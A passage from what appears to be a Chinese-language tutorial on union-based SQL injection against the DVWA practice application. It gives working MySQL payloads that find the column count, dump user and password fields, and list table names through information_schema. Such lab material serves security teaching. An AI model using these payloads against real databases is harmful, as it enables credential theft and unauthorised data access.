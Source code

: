 ​	order by 1 如果页面返回正常 字段数不少于 1,order by 2 不少于 2，一直如此类推直到页面出错。正确的字段数是出错数字减少 1

公式 order by n-1

1' order by 1--+ 正常

1' order by 2--+ 正常

1' order by 3--+ 出错

正常页面 



### 联合查询注入获取敏感信息

​	跟前面咱们分析的一样，这里只是把查询的数据替换成了联合查询的语句 然后进行获取另一个表的字段或者函数

```mysql
 -1' union select user,password from users-- 
```

![](https://img2023.cnblogs.com/blog/2587631/202212/2587631-20221225232138976-1882168286.png)


我们也可以使用`group_concat（）`函数来进行分组打印

```mysql
-1' union select 1,group_concat(user(),0x3A,version())-- 
```

![](https://img2023.cnblogs.com/blog/2587631/202212/2587631-20221225232149753-1158385166.png)




### 联合查询注入通过information_schema

​	

在黑盒情况下我们是不知道当前数据库里都有哪些表的所以我们先从mysql的information_schema入手进行表的查询

第一个表：

这里的`database（）`函数是来限定查询的表是当前表

```mysql
-1' union select 1,(select TABLE_NAME from information_schema.TABLES where TABLE_SCHEMA=database() limit 1)-- 
```

第二个表：

```mysql
-1' union select 1,(select TABLE_NAME from information_schema.TABLES where TABLE_SCHEMA=database() limit 1,2)-- 
```

通过两个表的查询我们知道dvwa中含有的表为`guestbook` 和`users`



### 联合查询注入通过information_schema获取字段
